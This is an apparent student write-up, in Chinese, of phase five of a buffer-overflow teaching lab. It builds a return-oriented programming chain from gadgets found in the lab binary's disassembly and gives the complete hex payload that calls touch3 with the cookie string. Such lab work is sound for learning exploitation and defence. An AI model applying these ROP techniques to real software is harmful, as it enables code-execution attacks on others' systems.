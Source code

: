 成功。

## 第五阶段

阶段五的目标和阶段三一样，首先使用 cookie 构造字符串，然后将字符串作为参数传入 `touch3`。

首先，我们把 cookie 转换成 ascii 码：

```
0x59b997fa -> 35 39 62 39 39 37 66 61 00
```

我们接下来的思路为：

1. 获得 `%rsp` 的地址
2. 将（栈的起始地址）+（cookie 的偏移量）放入某个寄存器中
3. 将寄存器的值放入 `%rdi` 中
4. 调用 `touch3`

首先，寻找 `movq %rsp, %rax`, `48 89 e0`。

我们可以找到如下代码片段：

```
0000000000401aab <setval_350>:
  401aab:   c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:   c3                      retq
```

所以 `gadget1` 的地址为 `0x401aad`。

接下来，我们需要递增 `%rax` 的地址，我们可以找到：

```
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```

得 `gadget2` 的地址为：`0x4019d8`。

接下来要将 `%rax` 的内容移动到 `%rdi` 中，找到 `mov %rax, %rdi`, `48 89 c7` 的代码片段：

```
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

得到 `gadget3` 的地址为：`0x4019a2`。

最后，攻击文件应该包括：填充区1，gadget1，gadget2，gadget3，touch3的地址，填充区2，cookie。第二个填充区的大小为55(0x37) - 3 * 8 = 31字节。`rtarget5.txt` 的内容为：

```
cc cc cc cc cc cc cc cc cc cc                                                                                           
cc cc cc cc cc cc cc cc cc cc
cc cc cc cc cc cc cc cc cc cc
cc cc cc cc cc cc cc cc cc cc
ad 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00  
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
dd dd dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd dd dd
dd
35 39 62 39 39 37 66 61 00
```
